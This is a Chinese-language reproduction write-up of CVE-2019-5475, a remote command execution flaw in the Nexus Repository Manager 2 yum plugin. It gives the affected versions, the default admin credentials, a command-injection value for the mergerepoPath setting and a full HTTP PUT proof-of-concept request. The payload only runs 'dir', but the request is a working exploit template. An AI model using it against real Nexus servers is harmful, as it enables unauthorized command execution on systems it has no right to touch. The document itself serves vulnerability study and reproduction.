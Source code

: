 # （CVE-2019-5475）Nexus2 yum插件RCE漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3039](https://www.zhihuifly.com/t/topic/3039)

# （CVE-2019-5475）Nexus2 yum插件RCE漏洞

## 一、漏洞简介

该漏洞默认存在部署权限账号，成功登录后可使用“createrepo”或“mergerepo”自定义配置，可触发远程命令执行漏洞

## 二、漏洞影响

Nexus Repository Manager OSS <= 2.14.13
Nexus Repository Manager Pro <= 2.14.13
限制：admin权限才可触发漏洞

## 三、复现过程

首先以管理员身份（admin/admin123）登录
然后找到漏洞位置：Capabilities - Yum:Configuration - Settings

![image](img/8590877884662d4d3fc69224fb507594.png)

点击 Save 抓包，更改mergerepoPath后的value值

```
C:\\Windows\\System32\\cmd.exe /k dir& 
```

![image](img/3e7535f6f94716328aadcec9855c5f75.png)

此处使用 /k 是因为这样命令执行完会保留进程不退出，而 /c 后执行完会退出；由于给用户提供的命令后面加了一个 --version，所以后面要加个&，&表两个命令同时执行，这样就不会干扰其他命令的执行

Poc如下：

```
PUT /nexus/service/siesta/capabilities/00012bdb034073a3 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: application/json,application/vnd.siesta-error-v1+json,application/vnd.siesta-validation-errors-v1+json
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Nexus-UI: true
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 241
DNT: 1
Connection: close
Referer: http://127.0.0.1:8081/nexus/
Cookie: NXSESSIONID=105c7cb1-a307-43a3-9ff8-9770b5ae3b13 `{“typeId”:“yum”,“enabled”:true,“properties”:[{“key”:“maxNumberParallelThreads”,“value”:“10”},{“key”:“createrepoPath”,“value”:“111”},{“key”:“mergerepoPath”,“value”:“C:\Windows\System32\cmd.exe /k dir&”}],“id”:“00012bdb034073a3”,“notes”:""}` 
```